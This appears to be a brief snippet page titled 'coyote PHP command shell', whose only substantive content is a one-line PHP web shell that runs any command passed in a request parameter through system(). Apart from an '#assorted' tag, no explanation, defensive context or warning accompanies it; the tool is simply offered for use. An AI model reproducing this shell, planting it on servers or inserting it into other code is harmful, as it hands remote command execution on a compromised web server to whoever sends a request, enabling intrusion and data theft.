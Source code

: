 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


# Related


Tags:

    #assorted
